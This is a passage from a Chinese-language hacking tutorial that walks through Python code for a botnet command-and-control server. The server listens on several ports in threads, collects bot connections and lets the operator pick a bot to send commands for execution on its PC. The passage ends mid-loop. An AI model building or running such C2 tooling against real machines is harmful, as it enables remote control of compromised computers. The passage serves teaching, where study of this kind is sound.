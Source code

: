 由于我们希望创建多个 bot，我们为每个 bot 使用线程。线程用于创建一个并行运行的单独任务。

接下来，我们将创建一个线程和客户端的列表。客户端在我们这个例子中将是 bot：

threads = []

clients = []

接下来，我们将创建一个名为**listen_for_bots()**的函数，顾名思义，它将监听传入的 bot 连接：

def listen_for_bots(port):

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sock.bind(("", port))

sock.listen()

bot, bot_address = sock.accept()

clients.append(bot)

这和我们之前编写黑客程序时的操作非常相似。唯一的区别是，一旦客户端连接，我们会将其添加到**client**列表中，这样我们就可以像在黑客程序中一样利用这个连接做各种事情。

现在，我们定义一个**main()**函数，所有的逻辑将在这里处理：

def main():

print("[+] 服务器 bot 等待传入连接")

startig_port = 8085

bots = 3

我们定义了要使用的端口。请注意，这是一个**starting_port**，我们将为不同的客户端使用不同的端口。我们会简单地在每个新客户端上加 1。变量**bots=3**表明我们只想连接三个 bot，不过你可以根据需要添加任意数量的客户端：

for i in range(bots):

t = Thread(target=listen_for_bots, args=(i + startig_port,), daemon=True)

threads.append(t)

t.start()

接下来，我们将在线程中运行这些任务。**Daemon=True**意味着我们希望将这些任务作为后台进程运行。然后，我们将每个线程添加到列表中，以便可以访问这些线程。

接下来，我们将为指挥控制中心运行一个循环。当客户端连接时，我们会显示所有客户端，并让黑客选择他们想要交互的客户端。然后，我们会为每个 bot 运行一个内部循环，通过访问列表中的元素来帮助我们向每个 bot 单独发送消息。在这里，你可以为 bot 定义自己的逻辑。你可以向 bot 发送命令并在 bot 所在的 PC 上执行这些命令。其余的功能可以由你根据需求自行定义。这里我们只是发送了一条消息。一旦达成目标，你可以将该客户端从列表中移除：

run_cnc = True

while run_cnc:

if len(clients) != 0:

for i, c in enumerate(clients):

print("\t\t", i, "\t", c.getpeername())

selected_client = int(input("[+] 通过索引选择客户端："))

bot = clients[selected_client]

